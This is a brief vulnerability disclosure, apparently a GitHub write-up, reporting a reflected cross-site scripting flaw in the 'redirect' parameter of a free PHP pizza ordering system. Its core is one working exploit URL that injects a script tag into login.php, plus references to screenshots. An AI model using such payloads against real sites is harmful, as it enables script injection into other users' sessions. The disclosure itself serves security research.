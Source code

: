 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $redirect

The process of vulnerability discovery is as follows：

![image-20230223211755472](C:\markdown\images\image-20230223211755472.png)

exp

```
http://192.168.31.50/php-opos/login.php?redirect=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

![image-20230223211644213](C:\markdown\images\image-20230223211644213.png)





